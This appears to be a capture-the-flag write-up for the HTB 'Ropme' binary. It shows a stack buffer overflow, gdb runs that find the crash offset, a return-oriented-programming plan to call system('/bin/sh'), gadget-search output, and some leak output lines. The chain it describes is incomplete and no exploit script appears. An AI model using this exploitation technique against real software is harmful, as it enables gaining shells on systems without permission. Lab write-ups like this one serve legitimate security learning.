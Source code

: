 # ROP

> Ropme challenge from HTB

```C
undefined8 main(void)

{
  char local_48 [64];
  
  puts("ROP me outside, how \'about dah?");
  fflush(stdout);
  fgets(local_48,500,stdin);
  return 0;
}
```

Immediately you can see buffer overflow despite using of `fgets()`.

The next point is no find out which offset the program will crash.
```bash
gef➤  r < <(python -c 'print "A" * 64')
Starting program: /home/kali/Downloads/ropme < <(python -c 'print "A" * 64')
ROP me outside, how 'about dah?
[Inferior 1 (process 5648) exited normally]
gef➤  r < <(python -c 'print "A" * 72')
Starting program: /home/kali/Downloads/ropme < <(python -c 'print "A" * 72')
ROP me outside, how 'about dah?

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7e1000a in ?? () from /lib/x86_64-linux-gnu/libc.so.6
```

Okay, so after 64 bytes, we overwrote the rbp register and got segfault. The next 8 bytes (x64 binary) will be our target as RIP register.

As the name of the challenge said `Ropme` we need to use Return-Oreinted programming. Its concept is that you have chuncks of addresses called gadgets thar are just addresses of instructions such as `something action register + ret instruction`. That's why this method is called Return because you will return after each instruction. So, if you will put these addresses in a defined sequence, you will execute a chain of instructions.

Here, this method is easy. In x64 arch, you need to do syscall with this convention: [link](https://courses.cs.washington.edu/courses/cse378/10au/sections/Section1_recap.pdf).

The first argument needs to be stored in RDI register. The next one in RSI and so on.
I will execute just call `system` with `/bin/sh`. Therefore, I need one gadget `pop rdi; ret` which will pop next address right into RDI and return. After this gadget, need to put address of /bin/sh string and then, call of system function.
Software for gadgets searching: [ropper](https://github.com/sashs/ropper).

```bash
$ ropper --file ropme | grep "pop"                                                                                                                                                                                                     
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x000000000040058c: add byte ptr [rax], al; add byte ptr [rax], al; pop rbp; ret; 
0x000000000040058e: add byte ptr [rax], al; pop rbp; ret; 
0x0000000000400578: add byte ptr [rax], al; test rax, rax; je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005c6: add byte ptr [rax], al; test rax, rax; je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax; 
0x000000000040057d: je 0x590; pop rbp; mov edi, 0x601048; jmp rax; 
0x00000000004005cb: je 0x5d8; pop rbp; mov edi, 0x601048; jmp rax; 
0x0000000000400588: nop dword ptr [rax + rax]; pop rbp; ret; 
```

[LEAKING /bin/sh]: b'\n' 1625423
[LEAKING /bin/sh]: b'TO FIX: \n' 1625415
[LEAKING /bin/sh]: b'V_LEVEL\n' 1625407
[LEAKING /bin/sh]: b'GVERB\n' 1625399
[LEAKING /bin/sh]: b'ize.c\n' 1625391
[LEAKING /bin/sh]: b'anonicalize.c\n' 1625383
[LEAKING /bin/sh]: b'/bin/sh\n' 1625367